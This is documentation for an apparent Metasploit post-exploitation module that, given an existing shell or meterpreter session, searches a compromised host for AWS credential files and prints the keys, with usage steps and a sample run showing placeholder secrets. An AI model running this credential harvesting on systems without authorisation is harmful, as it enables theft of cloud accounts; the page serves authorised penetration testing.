 ## Vulnerable Application

  Any system with a `shell` or `meterpreter` session.

## Verification Steps

  1. Get a `shell` or `meterpreter` session on some host.
  2. Do: ```use post/multi/gather/aws_keys.rb```
  3. Do: ```set SESSION [SESSION_ID]```, replacing ```[SESSION_ID]``` with the session number you wish to run this one.
  4. Do: ```run```
  5. If the system has readable configuration files containing AWS key material, they will be printed out.

## Options

  None.

## Scenarios

  ```
msf post(aws_keys) > run

[*] Enumerating possible user AWS config files
[*] Looking for AWS config/credentials files in /bin
[*] Looking for AWS config/credentials files in /dev
[*] Looking for AWS config/credentials files in /home/syslog
[*] Looking for AWS config/credentials files in /home/test
[*] Looking for AWS config/credentials files in /home/test  ubuntu
[*] Looking for AWS config/credentials files in /home/ubuntu
[*] Looking for AWS config/credentials files in /nonexistent
[*] Looking for AWS config/credentials files in /root
[*] Looking for AWS config/credentials files in /usr/games
[*] Looking for AWS config/credentials files in /usr/sbin
[*] Looking for AWS config/credentials files in /var/backups
[*] Looking for AWS config/credentials files in /var/cache/man
[*] Looking for AWS config/credentials files in /var/cache/pollinate
[*] Looking for AWS config/credentials files in /var/lib/gnats
[*] Looking for AWS config/credentials files in /var/lib/landscape
[*] Looking for AWS config/credentials files in /var/lib/libuuid
[*] Looking for AWS config/credentials files in /var/list
[*] Looking for AWS config/credentials files in /var/mail
[*] Looking for AWS config/credentials files in /var/run/dbus
[*] Looking for AWS config/credentials files in /var/run/ircd
[*] Looking for AWS config/credentials files in /var/run/sshd
[*] Looking for AWS config/credentials files in /var/spool/lpd
[*] Looking for AWS config/credentials files in /var/spool/news
[*] Looking for AWS config/credentials files in /var/spool/uucp
[*] Looking for AWS config/credentials files in /var/www
AWS Key Data
============

Source                         AWS_ACCESS_KEY_ID  AWS_SECRET_ACCESS_KEY  Profile
------                         -----------------  ---------------------  -------
/home/test/.aws/credentials    BAR                PRIVATE_TEST           test
/home/ubuntu/.aws/credentials  ABC456             PRIVATE_TEST           test
/root/.s3cfg                   root_key           root_secret            default
```
